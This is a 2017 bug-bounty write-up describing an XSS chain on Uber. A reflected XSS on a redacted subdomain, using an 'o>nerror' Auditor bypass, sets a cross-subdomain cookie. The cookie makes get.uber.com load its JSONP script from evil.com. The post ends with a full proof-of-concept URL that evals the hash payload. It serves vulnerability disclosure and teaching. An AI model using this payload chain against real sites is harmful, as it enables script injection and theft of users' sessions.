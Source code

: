 title: "[BBP系列二] Uber XSS via Cookie"
date: 2017-08-30 19:36:20
tags: ["安全", "XSS", "BBP"]
---

This write up is about part of my last XSS report to Uber@hackerone. Sorry for my poor English first of all, I will try my best to explain this XSS problem throughly.

## JSONP Request

Several months ago, when enjoying my Spring Festival Holiday at home, I decided to do something interesting, so I started hunting for a bug. I like searching in the chrome dev tools. This time my lucky word was `jsonp`, and my target domain was `https://get.uber.com`. Let's look at what I had found at that time.

```js
idrCall: function() {
    var a, b;
    return this.idrCallPending ? void 0 : (this.log("making idr call"),
    a = this.rfiServer ? this.rfiServer : "a.rfihub.com",
    b = this.getProtocol() + "//" + a + "/idr.js",
    this.jsonpGet(b, {}, this.idrCallback, "cmZpSWRJbkNhY2hl"),
    this.idrCallPending = !0)
},
```

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj2030d1ocj21d00r0gsw.jpg)

Nothing suspicious? Not! When came cross these lines of code, I was thinking about whether the value of `this.rfiServer` could be controlled by me. If yes, we can force the browser to load arbitrary javascript file. To understand this, you should know [the essence of JSONP](https://stackoverflow.com/a/2067584). The next step was searching everything about `rfiServer`.

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj20krdxhbj20tm0f042c.jpg)

After reading through these lines of code:

```js
a = this.readCookie("_rfiServer"),
null != a && this.setRfiServer(a),
```

We could get the information that the initial value of `this.rfiServer` was set by using value of cookie `_rfiServer` if exists. Now the problem became how we can set cookie of Uber sites? But how? Here was the options in my mind at that time:

* HTTP Header CRLF Injection at any subdomain of uber.com
* XSS at any subdomain of uber.com

What? We need to find a bug to trigger another bug. And why any subdomain of uber.com?

## The Feature of Cookie

Any subdomain of uber.com can set cookie with domain `.uber.com` to be used across subdomains. For instance, we can set cookie in `xxx.uber.com` using following code, then `get.uber.com` will use the cookie value.

```
document.cookie = '_rfiServer=eviljs.com;domain=.uber.com;expires=Sat, 27 Jan 2018 01:43:57 GMT;path=/'
```

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj21fxdw02j21dk16qqel.jpg)

## XSS of uber.com but Out of Scope

I did really find out one reflected XSS in one of Uber's subdomain using search engine. Let's call the domain `<redacted>.uber.com` for demo.

![](https://ws1.sinaimg.cn/large/7184df6bgy1fj21w61lp8j21dw0fy79z.jpg)

1. `"` is reflected and not encoded. We can inject any attribution into `input` tag.
2. `type="text"` is after the injection point. So we can inject `type="image" src="1" onerror="alert(1)"`. Note that when there is two types, the second one will be ignored.
3. `>` is removed!!! This can be used to bypass Chrome XSS Auditor. How? `o>nerror`.

## Summary

1. Use reflected XSS of `<redacted>.uber.com` to set the value of `_rfiServer` cookie to `evil.com`
2. Visit `get.uber.com`, JSONP request to `https://evil.com/idr.js`, XSS of `get.uber.com` is done.
3. The final PoC

  ```js
  https://<redacted>.uber.com/<redacted>?
  email=aaa"%20type%3d"image"%20src%3d1%20o>nerror%3d"eval(decodeURIComponent(location.hash.substr(1)))
  #document.cookie='_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2999 01:43:57 GMT;path=/';location.href="https://get.uber.com";
  ```
